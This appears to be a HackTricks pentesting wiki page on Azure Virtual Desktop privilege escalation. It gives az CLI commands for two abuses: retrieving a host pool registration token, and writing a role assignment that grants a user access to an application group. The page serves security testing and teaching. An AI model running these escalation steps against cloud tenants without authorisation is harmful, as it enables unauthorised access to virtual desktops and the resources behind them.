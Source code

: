 # Az - Virtual Desktop Privesx

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

For more info about Azure Virtual Desktop check:

{{#ref}}
../az-services/az-virtual-desktop.md
{{#endref}}


### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
You can retrieve the registration token used to register virtual machines within an host pool.

```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```

### Microsoft.Authorization/roleAssignments/read, Microsoft.Authorization/roleAssignments/write

> [!WARNING]
> An attacker with these permissions could do things much more dangerous than this one.

With this permissions you can add a user assignment to the Application group, which is needed to access the virtual machine of the virtual desktop:

```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
  --body '{
    "properties": {
      "roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
      "principalId": "<USER_OBJECT_ID>"
    }
  }'
```

Note that in order for a user to be able to access a Desktop or an app, he also needs the role `Virtual Machine User Login` or `Virtual Machine Administrator Login` over the VM.


{{#include ../../../banners/hacktricks-training.md}}


